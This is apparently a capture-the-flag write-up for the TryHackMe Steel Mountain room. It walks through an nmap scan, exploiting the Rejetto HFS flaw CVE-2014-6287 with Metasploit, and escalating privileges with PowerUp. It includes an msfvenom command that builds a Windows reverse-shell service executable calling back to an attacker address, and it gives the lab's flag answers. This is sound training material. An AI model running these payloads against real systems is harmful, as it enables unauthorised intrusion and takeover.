# Steel Mountain — TryHackMe

Steel Mountain teaches a complete penetration testing workflow starting from reconnaissance, where you scan the target using tools like Nmap to discover open ports and services. You then perform web enumeration to identify running applications and look for vulnerabilities using resources like Exploit-DB or searchsploit. After finding a suitable vulnerability, you exploit it to gain an initial foothold, typically in the form of a reverse shell. Once inside the system, you carry out post-exploitation by exploring files, users, and configurations. Finally, you perform privilege escalation using tools like PowerUp to identify misconfigurations and gain administrator access, ultimately achieving full control of the system. 

## Task 1 – Introduction 

##### Q1) Who is the employee of the month?





Hit inspect on the image and we see his name in the name of the file.

**Answer** : Bill Harper

## Task 2 - Initial Access

##### Q2) Scan the machine with nmap. What is the other port running a web server on?  

**Command used**

```bash 
nmap -sV 10.48.178.168 -vv 
``` 


If we look under ‘SERVICE’ we see that port 8080 is running HttpFileServer httpd 2.3 . 

**Answer:** 8080

##### Q3) Take a look at the other web server. What file server is running? 





**Answer:** Rejetto HTTP File Server 

##### Q4) What is the CVE number to exploit this file server? 



**Answer:** 2014–6287 

##### Q5) Use Metasploit to get an initial shell. What is the user flag?

Load Metasploit Framework using the following command:

```bash
msfconsole
```








**Answer:** b04763b6fcf51fcd7c13abc7db4fd365 

## Task 3 - Privilege Escalation

##### Q6) To enumerate this machine, we will use a PowerShell script called PowerUp, whose purpose is to evaluate a Windows machine and determine any abnormalities — “PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.” 

##### Download the script here. To upload the file to meterpreter use this command. Make sure you write out the directory your script is in if it’s not in the same folder that Metasploit is running in 







##### Q7) Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

**Answer:** AdvancedSystemCareService9

##### Q8) The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program! 

##### Use msfvenom to generate a reverse shell as an Windows executable. 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.48.102.70 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe 
```

##### Upload your binary and replace the legitimate one. Then restart the program to get a shell as root. 
 

##### Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead. 
 




















##### Q9) What is the root flag?

**Answer:** 9af5f314f57607c00fd09803a587db80

